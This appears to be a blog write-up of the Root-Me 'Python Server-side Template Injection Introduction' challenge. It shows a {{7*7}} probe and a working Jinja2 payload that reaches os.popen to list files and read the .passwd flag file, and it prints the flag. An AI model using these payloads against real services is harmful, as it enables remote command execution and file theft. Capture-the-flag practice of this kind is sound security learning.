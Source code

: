 ```yaml
---
title: Python - Server-side Template Injection Introduction
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, Server-side template injection]
---
```


* Points: 25
* Link: [https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)

## Statement

> This service allows you to generate a web page. Use it to read the flag!

## Analyzation

Try payload

```
{%raw%}{{ 7*7 }}{%endraw%}
```

It is executed --> the site is vulnerable to SSTI.

## Exploitation

Searching payload in the internet, I got this one work

```py
{%raw%}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}{%endraw%}
```

Change command in ```popen('ls -la')``` to execute shell code.

After reading all files listed above, ```.passwd``` has what I need

```py
{%raw%}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat .passwd').read() }}{%endraw%}
```

The flag is

```
Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!
```

## Resources


- [https://secure-cookie.io/attacks/ssti/](https://secure-cookie.io/attacks/ssti/)

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

- [https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)

- [https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack](https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack)